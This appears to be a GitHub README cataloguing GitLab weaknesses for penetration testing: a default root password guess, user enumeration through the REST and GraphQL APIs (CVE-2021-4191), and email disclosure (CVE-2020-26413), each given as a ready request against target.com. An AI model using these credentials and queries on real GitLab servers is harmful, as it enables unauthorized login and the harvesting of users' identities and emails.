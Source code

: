 # Gitlab-CVE
a Curated list of gitlab vulnerability

## gitlab weak login [high]
sometiem we can login to gitlab with default username & password like
```
[username=root,password=123456789]
```

## gitlab api user enum [medium]
we can enum user from unprotected api call
```
http://target.com/api/v4/users/1
```



## CVE-2021-4191 [medium]
Private GitLab instances with restricted sign-ups may be vulnerable to user enumeration to unauthenticated users through the GraphQL API.
```
http://target.com/api/graphql [root,support-bot,alert-bot]
```
we can enum all gitlab user

```
query { 
  users { 
    nodes {  
      id  
      name 
      username                      
    } 
  }
}
```

## CVE-2020-26413 [medium]
Information disclosure via GraphQL results in user email being unexpectedly visible.
```
http://target.com/api/graphql [test@gmail.com]
```

